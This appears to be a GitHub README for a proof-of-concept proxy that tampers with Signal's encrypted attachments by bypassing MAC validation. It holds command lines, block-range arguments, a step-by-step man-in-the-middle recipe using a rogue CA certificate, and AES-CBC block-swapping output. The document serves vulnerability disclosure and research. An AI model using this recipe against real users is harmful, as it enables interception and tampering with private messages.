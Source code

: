 # Signal Attack Proxy

This is a PoC the vulnerabilities found in the [Signal Private Messenger](https://whispersystems.org). It is acting as a proxy and will modify encrypted attachments in a way so that the MAC validation is bypassed and 4GB of data is attached.

You can specify ranges of blocks to attach to the original attachment. E.g. the ranges "0-100,1000-2000,0-100" would append blocks 0 to 100 followed by blocks 1000-2000 and then again 0-100 to the attachment. Blocks are AES blocks of 16bytes.

## Example Demonstrating the MP3 Robustness

./reorder.py notanissue.mp3 0-2700,4000-4320,4500-6320,6800-7400,6800-7400,6800-7400,6800-7400,4500-5380,6800-7400,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450  > test.mp

mplayer test.mp3


## Example Attack Against Signal

./sap-thatsnotwhatisaid.py --encoding <encoding (gzip only)> --blocks <range1>,<range2>

To recreate the video found at https://www.youtube.com/watch?v=brN6D9Fc4dc do the following:

  1. Install a rouge CA certificate on your Android device (or use a real one if you got one ;)
  2. Start the proxy using the cmdline sap-thatsnotwhatisaid.py --encoding gzip --blocks 0-2700,4000-4320,4500-6320,6800-7400,6800-7400,6800-7400,6800-7400,4500-5380,6800-7400,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380
  3. Intercept the request to the Signal attachment server and forward it to the host running sap-thatsnotwhatisaid.py, port 8000.
  4. Send the notanissue.mp3 from another signal contact to the Android device.
  5. Profit.

## Example of AES-CBC Malleability

./blockswap.py 
k = bda0563c8febf4768ab4fc92571677fc
iv = 83e5758d22ccf7a5222d163577142fd5

enc:
00000000000000000000000000000000 41414141414141414141414141414141 ffffffffffffffffffffffffffffffff
->
e09b86090870c296e7ab328fe00d8666 b64314496bd52ef39783e9009e5418b3 f68cc98cd9c9b9d2ae8dfb201c6c2448

dec:
e09b86090870c296e7ab328fe00d8666 b64314496bd52ef39783e9009e5418b3 f68cc98cd9c9b9d2ae8dfb201c6c2448 e09b86090870c296e7ab328fe00d8666 b64314496bd52ef39783e9009e5418b3 f68cc98cd9c9b9d2ae8dfb201c6c2448 e09b86090870c296e7ab328fe00d8666 b64314496bd52ef39783e9009e5418b3 f68cc98cd9c9b9d2ae8dfb201c6c2448
->
00000000000000000000000000000000 41414141414141414141414141414141 ffffffffffffffffffffffffffffffff 7569bc01fb054e778ca0ed156b780b9d 41414141414141414141414141414141 ffffffffffffffffffffffffffffffff 7569bc01fb054e778ca0ed156b780b9d 41414141414141414141414141414141 ffffffffffffffffffffffffffffffff

dec:
e09b86090870c296e7ab328fe00d8666 b64314496bd52ef39783e9009e5418b3 f68cc98cd9c9b9d2ae8dfb201c6c2448 e19a87080971c397e6aa338ee10c8767 b64314496bd52ef39783e9009e5418b3 6d0b9b63cc22194bccc3f8db99fac13b e09b86090870c296e7ab328fe00d8666 1ce9bee3c17f84593d2943aa34feb219 f68cc98cd9c9b9d2ae8dfb201c6c2448
->
00000000000000000000000000000000 41414141414141414141414141414141 ffffffffffffffffffffffffffffffff 2fcb289c29e971e526d289f3ff6f680d 40404040404040404040404040404040 fcbd0d1f2e555bd07c612711b9023f2b eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee 622080ba795c6a8b4fffc37ec69d551e 55555555555555555555555555555555

